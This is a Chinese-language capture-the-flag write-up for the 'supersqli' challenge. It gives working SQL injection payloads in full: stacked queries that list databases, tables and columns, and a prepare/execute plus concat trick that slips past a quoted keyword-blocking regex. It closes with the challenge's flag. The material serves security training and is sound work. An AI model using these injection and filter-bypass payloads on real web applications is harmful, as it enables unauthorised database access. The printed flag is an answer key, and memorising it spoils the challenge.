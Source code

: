 # supersqli

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=279780af-0dcb-4a1c-b8d3-fd0410115df9_2)

sql注入还是要看知识面啊，因为你永远都不知道会遇到什么数据库，要用什么语句。

场景就是一个输入框，看来这就是我们的注入点了。

![inject](../../images/inject.png)

直接输入1'可以得到报错内容。(基础的sql注入一般都是输入引号进行测试)

- error 1064 : You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1

MariaDB又是什么数据库啊？

- ### MariaDB
    > MariaDB数据库管理系统是 MySQL 的一个分支，主要由开源社区在维护，采用GPL授权许可。MariaDB的目的是完全兼容MySQL，包括API和命令行，使之能轻松成为MySQL的替代品。 在MariaDB与MySQL几乎一模一样，它们有相同的命令、界面，以及库与API。

哦，跟MySQL差不多。那就把这个当成一个MySQL注入题得了。既然有报错，那就试一下联合注入(union select)。

- return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);

没那么简单，这里把select过滤了。且有/i标志，意味着全局匹配且大小写不敏感。看来得考虑别的。既然我们不能在一条语句里注入，多来几条怎么样？这种方法就叫堆叠注入。主要原理就是MySQL数据库中用 ; 来表示一条语句的结束，所以我们也可以在payload中添加 ; 来一次注入多条语句。

- ?inject=1';show databases; #

我们要往inject传参数，payload中用'闭合前面的语句，;拼接下一条语句，show database在mysql中可以列出服务器上所有的数据库。#注释后面的内容。

![dataBases](../../images/showDatabases.png)

既然这个挑战叫supersqli，那就看看supersqli数据库里有啥。我们现在应该就在supersqli数据库里，所以可以直接使用show tables来列出当前数据库中所有的表。

- ?inject=1';show tables; #

![tables](../../images/showTables.png)

有两个表，都看看里面有啥。show columnns可以从显示指定表（用from指定）中的字段，表名要用反引号\``扩起来，因为当字符串为表名进行操作时要加反引号

- ?inject=1';show columns from \`words`; #

![words](../../images/words.png)

- ?inject=1';show columns from \`1919810931114514`; #

![flag](../../images/flagTable.png)

可以看见flag在1919810931114514这个表中。问题是我们的select不能用，该怎么看这个字段中的内容呢？我们可以利用预编译来构造一条查询语句。

- ### 预编译
  > 执行一条sql查询语句需要经过三个步骤：（1）词法和语义解析    （2）优化sql语句，制定执行计划  （3）执行并返回结果
  > 跟编程一样，有些常用的语句可能会被用很多次。但是如果每次用的时候都来这三步，语句量大的时候效率就不行了。一般常用的语句每次只会有查询的值有细微差别，所以我们可以将这类语句中查询的值用占位符替代，将sql语句模板化或者说参数化，就可以一次编译、多次运行，省去了解析优化等过程。

我们主要会用到三条命令

- ### set
  > 可以理解为设置变量或准备即将预编译的语句。
  > 语法：set @名称=值
- ### prepare
  > 预编译一条sql语句。
  > 语法：prepare 语句名 from 语句
- ### execute
  > 执行预编译语句
  > 语法：execute 语句名 \[变量]\(可选)

那么我们可以准备下面这个payload：

- ?inject=1';set @sql=concat('s','elect * from \`1919810931114514`');PREPARE pre FROM @sql;EXECUTE pre; #
  > 不能直接拼接select，因为这样就是字符串而不是可以执行的语句了。

这条语句意为：set准备需要的select语句（用concat拼接字符串绕过过滤，prepare预编译语句，execute执行语句。

## Flag
  > flag{c168d583ed0d4d7196967b28cbd0b5e9}